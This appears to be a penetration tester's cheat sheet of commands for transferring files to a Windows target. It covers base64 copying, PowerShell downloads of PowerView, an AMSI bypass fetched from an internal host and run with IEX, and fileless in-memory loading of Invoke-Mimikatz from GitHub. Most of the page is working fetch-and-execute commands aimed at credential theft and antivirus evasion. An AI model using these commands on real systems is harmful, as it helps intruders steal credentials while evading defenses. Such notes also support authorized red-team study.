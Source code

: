 ### Copying Using Base64

Verify the MD5 hash of the target file:

```bash
garffff@garffff:~/test$ more hello.py 
print("hello world!")
gareth@gareth:~/test$ md5sum hello.py 
01c0a257edd3c2e95c25d80a4c18c5cc  hello.py
```

Base64 the target file :

```bash
garffff@garffff:~/test$ cat hello.py |base64 -w 0;echo
cHJpbnQoImhlbGxvIHdvcmxkISIp
```

In PowerShell, echo the base64 output to a location:

```bash
PS C:\users\public\downloads> [IO.File]::WriteAllBytes("C:\Users\Public\hello.py", [Convert]::FromBase64String("cHJpbnQoImhlbGxvIHdvcmxkISIp"))
```

Verify MD5 of target file:

```bash
PS C:\users\public\downloads> Get-FileHash C:\Users\Public\hello.py -Algorithm md5

Algorithm       Hash                                                                   Path
---------       ----                                                                   ----
MD5             01C0A257EDD3C2E95C25D80A4C18C5CC                                 
```

### Web Downloads

Malicious files can be detected by Defender:

```bash
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadFile('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1','C:\Users\Public\Downloads\PowerView.ps1')
PS C:\users\public\downloads> wget 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_wget.ps1
PS C:\users\public\downloads> curl 'https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1' -o PowerView_curl.ps1
```

### Web Downloads - Fileless (memory)

Need to bypass AMSI to load Malicious files into memory:

```bash
PS C:\Users\Sec-1> (New-Object System.Net.WebClient).DownloadString('http://192.168.0.51/amsi.txt') | IEX
```

Then load into memory:

```bash
PS C:\users\public\downloads> IEX (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1')
PS C:\users\public\downloads> (New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/EmpireProject/Empire/master/data/module_source/credentials/Invoke-Mimikatz.ps1') | IEX
```

```

